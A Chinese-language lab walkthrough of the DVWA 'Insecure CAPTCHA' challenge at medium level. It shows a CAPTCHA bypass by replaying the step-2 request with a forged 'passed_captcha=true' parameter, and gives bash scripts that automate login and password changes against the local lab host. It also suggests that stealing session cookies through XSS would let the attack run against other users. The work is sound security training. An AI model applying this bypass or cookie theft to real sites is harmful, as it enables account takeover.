 # Insecure CAPTCHA

>Objective: Your aim, change the current user's password in an automated manner because of the poor CAPTCHA system.

之前在 low 難度時沒好好觀察前端的部分，現在來看一下 CAPTCHA 做了哪些事

### 觀察

可以看出 `k` 就是我們申請的 public key

```bash
6Lcl8EoeAAAAAM9dYVBygjc6ppgHcJSCvcfblNw2
```

```bash
{
	"POST": {
		"scheme": "https",
		"host": "www.google.com",
		"filename": "/recaptcha/api2/userverify",
		"query": {
			"k": "6Lcl8EoeAAAAAM9dYVBygjc6ppgHcJSCvcfblNw2"
		},
		"remote": {
			"Address": "172.217.160.68:443"
		}
	}
}
```

### 正常流程

如果 CAPTCHA 驗證成功就能取得 `g-recaptcha-response` 這個 value，和更新密碼的表單一起送出就能通過檢查

### change password

```bash
g-recaptcha-response
```

```bash
{
	"step": "1",
	"password_new": "1111",
	"password_conf": "1111",
	"g-recaptcha-response": "03AGdBq26Z9NdfV2KFtwApYtm2tmDJm2KocpDSKFDnm9pORA9njIIWg30efxvJVDQcTAt-bB4e9QVQvVC9IuEnKB4BLrsVckuNl0M01dnrzzFy7UzIR-397NOxuMcJ9XVDvsCh8yscyfaYfL5SCOaCNhUVxcey0TcmpWCOa9bMNWCx8gBoIKZCz_F2iB5v0Ocerw8gjSGRib28_ZRy8S-45INfrgC3DA7Aq7Bd80sprUX2w0Dasr8Pp-hta1jX9P1fW-__zHbcGSMdMSXEVpcJzkRKt5xtuUbGXIbfWuXgyjQQilbXkqnRRYbifbwmnNwcrN9kEF6zGbO8H7-6YIYlSRiLZ2PuHpcy2HeT0gukt5HDiAjVxyhkRbzf53TaEY3UdVII8p5vBsb5WOmQ7qT2RlI6OII3x93AiUaUo85XFKxQOB0CMIIkPtCb29zKDAkcbdOuXRqCU8y_",
	"Change": "Change"
}
```

```bash
{
	"step": "1",
	"password_new": "1234",
	"password_conf": "1234",
	"g-recaptcha-response": "03AGdBq27-Tc-GnLYIcFGrbU88L0VgaJAzMtPceF5WwhVMedmba8duTCieNn8JlUNFgOvEESma6LBEiXtxAvOSprxHg6U8Z_ySkE3kK0gNvsll9ZrPGpjk7GXugYzqM6Y0k5hHQOFxLEYLMMypA7pFl6w6oaTU0ti1jGs1B8KXzjQeeqqsTGBsohceKaV2epvgyx4ufgjtVSnSV07glfSneCNi1zRaGIPQTnTWrc-wMMOFQB3wHSpwNdehRRlJ3cShG8lHccfCpbhrvM2KVdVzihELeNAAae2ff6bzJusfQKlogbgMdTQdH23whEBq_487kQzRZllmNyZdBiSmXhFD6VmPzJVFRGiKKZ7N8RwI4yn9Q78GalTy5JE0PGnrtGeqN-zvl86EnNaiyCjDwOBZ2xFZwdb3aSlbhy_A6mYVz4hKabGuI6vNuIYuhTPZCB5NBqF9DEPNH915",
	"Change": "Change"
}
```

### 觀察 storage

恩...不太好解讀

### localstorage
```bash
_grecaptcha:"09APj96hT8iRUxC-jYRQLJPdetysMOZw4s4TUXZ4mdKdn6ESYQGgiLac6x-BtG-zhJpNzEsHr0mKGs-bosFqKAp4Pekg"
```
```bash
_GRECAPTCHA:"09APj96hTmVBUwXdk9UFJCoPyA5R2-md9Z8SyOTc-LQgx9M9hRZ0qthtydmztVGLyXHYgZ3DPeQo3EQI7WKv8-HBk"
```
以上觀察不出其他線索 XD

這些可以被視為純前端的部分，可以再次理解 Google 的 **CAPTCHA** 只能被視為過濾和限速用，當然有些類似 CAPTCHA 的套件也蠻常跟後端整合一起使用，但跟此題無關

一樣直接繞過的方式下手

### 直接檢查後端實作有沒有缺陷

走正常流程，通過檢查，出現 Change button，點下去

來觀察一下參數
```json
{
	"step": "2",
	"password_new": "1111",
	"password_conf": "1111",
	"passed_captcha": "true",
	"Change": "Change"
}
```

和 low 難度的相比多了一個  `"passed_captcha": "true"`

```json
step=2&password_new=222&password_conf=222&Change=Change
```

所以只要確認這兩個參數有改到就 ok

```json
step=2,
Change=Change
```

直接將此 request 複製成 curl ，填入其他密碼測試看看直接送有沒有效

關鍵就是要取得驗證 CAPTCHA 後的 cookie 內的 `PHPSESSIONID` ．再重送給後端就能修改密碼

```bash
curl -L -X POST "http://dvwa.localtest/vulnerabilities/captcha/#" \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://dvwa.localtest' \
-H 'DNT: 1' \
-H 'Connection: keep-alive' \
-H 'Referer: http://dvwa.localtest/vulnerabilities/captcha/' \
-H 'Cookie: PHPSESSID=2d7pjcupfh347g4n5apfl1k4o6; security=medium' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'step=2&password_new=3333&password_conf=3333&passed_captcha=true&Change=Change'
```

送出 curl 後可以看到 `Password Changed`
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/164cb7f9-27d0-4e64-a55a-6415751dbca1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T093929Z&X-Amz-Expires=86400&X-Amz-Signature=5906452ef30d0f76456d2d19929e4620e16c72c39c2069ba70aa80ce9722964f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done

用新密碼 3333 重登成功
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/459b234d-9cfd-4dbc-a647-2bef59bfe945/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T094002Z&X-Amz-Expires=86400&X-Amz-Signature=e74617cb368dc9103fb27e78c669f9ad2687990296dbd75ed4088a1101c89063&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

如果能搭配 XSS 或其他手段取得 user cookie (因為要先登入過 DVWA) 那就有機會將攻擊自動化

`./test.sh`
```bash
#!/usr/bin/env bash
# usage: ./change-pwd.sh <new password> <session-id>

HOST=http://dvwa.localtest
NEW_PASSWORD=$1
SESSIONID=$2

curl -v -L \
-X POST "${HOST}/vulnerabilities/captcha/#" \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://dvwa.localtest' \
-H 'Referer: http://dvwa.localtest/vulnerabilities/captcha/' \
-H "Cookie: PHPSESSID=${SESSIONID}; security=medium" \
--data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
```

```bash
./test.sh 2222 3l7tambvpgcbe10cdc14rfbo84
```

---

更完整一點的腳本，要先執行 `login-test.sh` 取得 cookie，再執行  `update-pwd.sh` 更新密碼

```bash
./login-test.sh
```

```bash
#!/usr/bin/env bash
# usage: ./login-test.sh [<password>]

if [ -z "$1" ]
  then
    echo "No argument supplied, use default password instead"
    LOGIN_PASSWORD=password
fi

# DVWA host
HOST=http://dvwa.localtest
# create cookie and save csrf token
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "${HOST}/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
# save session id
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)

# user & password for login to start tasks
USER=admin
LOGIN_PASSWORD=$1

# login at login page
RES=`curl -v -L -c cookies.txt -b cookies.txt \
-X POST "${HOST}/login.php" \
--data-raw \
"username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${CSRF}"`

if [[ $RES == *"Welcome to Damn Vulnerable Web Application!"* ]]; then
  printf "\n PASS!✅ \n"
else
  printf "\n LOGIN FAILED❌ \n"
fi
```
---
`update-pwd.sh` 可以使用 cookie file (預設) or 指定 session id 於 argv

```bash
./update-pwd.sh <password> 
```

```bash
./update-pwd.sh <password> <session-ed>
```


```bash
#!/usr/bin/env bash
# usage: ./update-pwd.sh <new password> [<session-id>]

HOST=http://dvwa.localtest
NEW_PASSWORD=$1
SESSIONID=$2

if [ -z "$2" ]
  then
    echo "No session id supplied, use cookie file instead."

    RES=`curl -v -L -c cookies.txt -b cookies.txt -X POST "${HOST}/vulnerabilities/captcha/#" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: ${HOST}" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H "Referer: ${HOST}/vulnerabilities/captcha/" \
    -H 'Upgrade-Insecure-Requests: 1' \
    --data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
    `
  else
    RES=`curl -v -L -X POST "${HOST}/vulnerabilities/captcha/#" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: ${HOST}" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H "Referer: ${HOST}/vulnerabilities/captcha/" \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H "Cookie: PHPSESSID=${SESSIONID}; security=medium" \
    --data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
    `
fi

if [[ $RES == *"Password Changed."* ]]; then
  printf "\n PASSWORD CHANGED!✅ \n"
else
  printf "\n PASSWORD CHANGE FAILED❌ \n"
fi
```

要記得確認 cookie 中的的難度等級為 `medium`

```bash
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

dvwa.localtest	FALSE	/	FALSE	0	PHPSESSID	e176d3692ee6afa4798775328ad1b36c
#HttpOnly_dvwa.localtest	FALSE	/	FALSE	0	security	medium
```
